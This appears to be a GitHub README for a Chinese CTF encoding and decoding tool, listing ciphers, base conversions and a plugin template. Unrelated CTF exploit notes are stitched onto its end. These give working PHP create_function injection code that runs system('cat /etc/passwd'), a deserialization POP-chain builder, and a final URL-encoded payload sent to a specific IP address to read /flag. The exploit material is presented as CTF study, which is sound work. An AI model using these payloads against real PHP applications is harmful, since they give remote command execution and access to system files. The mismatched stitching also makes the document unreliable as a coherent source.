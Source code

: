 # CTF-Tools

![1](https://github.com/qianxiao996/CTF-Tools/blob/master/1.jpg)

一款CTF编码、解码、加密、解密工具。

##### 安装依赖：

- pip install base36
- pip install base58
- pip install base91
- py3base92-master\py3base92_setup>install.bat 到github上找到py3base92下载，执行install.bat
- pip install pybase62
- pip install PyQt5
- pip install pyperclip
- pip install wheel
- pip install F:\download\gmpy2-2.0.8-cp39-cp39-win_amd64.whl(我的python是3.9版本，所以下载的是cp39,https://www.lfd.uci.edu/~gohlke/pythonlibs/ 到这里搜索下载)


##### 支持的编码解码:

- [x] URL-UTF-8            
- [x] URL-GB2312
- [x] Unicode
- [x] Escape(%U)
- [x] HtmlEncode
- [x] ACSII
- [x] Base16
- [x] Base32
- [x] Base64
- [x] Str->Hex
- [x] Shellcode
- [x] qwerty(键盘密码)
- [x] 图片转base64
- [x] 图片转hex

##### 支持的加密解密:

- [x] Rot13
- [x] 凯撒密码
- [x] 栅栏密码
- [x] 栅栏密码(W型)
- [x] 培根密码
- [x] 摩斯密码
- [x] 移位密码
- [x] 云影密码
- [x] 当铺密码
- [x] 维尼吉亚密码
- [x] 埃特巴什码
- [x] base64转图片

##### 进制转换:

- [x] 2->8
- [x] 2->10
- [x] 2->16
- [x] 8->2
- [x] 8->10
- [x] 8->16
- [x] 10->2
- [x] 10->8
- [x] 10->16
- [x] 16->2
- [x] 16->8
- [x] 16->10
- [x] 任意进制转换

##### 在线编码网站:

- [x] Jsfuck
- [x] AAencode
- [x] XXencode
- [x] JJencode
- [x] UUencode
- [x] Brainfuck/Ook!
- [x] 敲击码
- [x] 猪圈密码
- [x] 综合网站
- [x] Rabbit

......

##### 插件功能:

须在Plugins目录下的Plugins.json写入插件名称和文件名。

插件模板

```
def run(source_text):
    #source_text 为前端输入的源文本字符串
    #插件测试模板，返回一个加密解密结果即可
    result='插件测试'
    return result
```



php的神奇函数
create_function；如下代码就能调用系统命令ls /

```php
<?php
echo 'Hello World!';
system('cat /etc/passwd');
create_function('',";}system('cat /etc/passwd');//");
create_function('',";}system('ls /');//")
?>
```


```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$pwd=getcwd();
class func
{
        public $mod1="1";
        public $mod2="2";
         public $key="3";
        public function __destruct()
        {        
                unserialize($this->key)();
                $this->mod2 = "welcome ".$this->mod1;
                  
        } 
}

class GetFlag
{        public $code;
         public $action;
        public function get_flag(){
            $a=$this->action;
            $a('', $this->code);
        }
}


$str = 'O%3A4%3A%22func%22%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A121%3A%22a%3A2%3A%7Bi%3A0%3BO%3A7%3A%22GetFlag%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A19%3A%22%3B%7Dsystem%28%27ls+%2F%27%29%3B%2F%2F%22%3Bs%3A6%3A%22action%22%3Bs%3A15%3A%22create_function%22%3B%7Di%3A1%3Bs%3A8%3A%22get_flag%22%3B%7D%22%3B%7D';
echo urldecode($str);
unserialize(urldecode($str));

?> 

```





首先利用一个creat_function()函数去做这里，`$a('', $this->code);`

要执行到getflag的get_flag方法，就可以这样打pop链：

```php

<?php
class func
{
    public $key;
    public function __construct()
{
        $this->key = serialize([new GetFlag(), "get_flag"]);
    }
}


class GetFlag
{
    public $code;
    public $action;
    public function __construct()
{
        $this->code = ";}system('ls /');//";
        $this->action = "create_function";
    }
}
echo urlencode(serialize(new func()));  
O%3A4%3A%22func%22%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A121%3A%22a%3A2%3A%7Bi%3A0%3BO%3A7%3A%22GetFlag%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A19%3A%22%3B%7Dsystem%28%27ls+%2F%27%29%3B%2F%2F%22%3Bs%3A6%3A%22action%22%3Bs%3A15%3A%22create_function%22%3B%7Di%3A1%3Bs%3A8%3A%22get_flag%22%3B%7D%22%3B%7D

```

成功执行了命令，flag在根目录，cat /flag 就OK了：

最终payload：

http://111.74.9.109:10069/?0=O%3A4%3A%22func%22%3A3%3A%7Bs%3A4%3A%22mod1%22%3BN%3Bs%3A4%3A%22mod2%22%3BN%3Bs%3A3%3A%22key%22%3Bs%3A126%3A%22a%3A2%3A%7Bi%3A0%3BO%3A7%3A%22GetFlag%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A24%3A%22%3B%7Dsystem%28%27cat+%2Fflag%27%29%3B%2F%2F%22%3Bs%3A6%3A%22action%22%3Bs%3A15%3A%22create_function%22%3B%7Di%3A1%3Bs%3A8%3A%22get_flag%22%3B%7D%22%3B%7D

图片

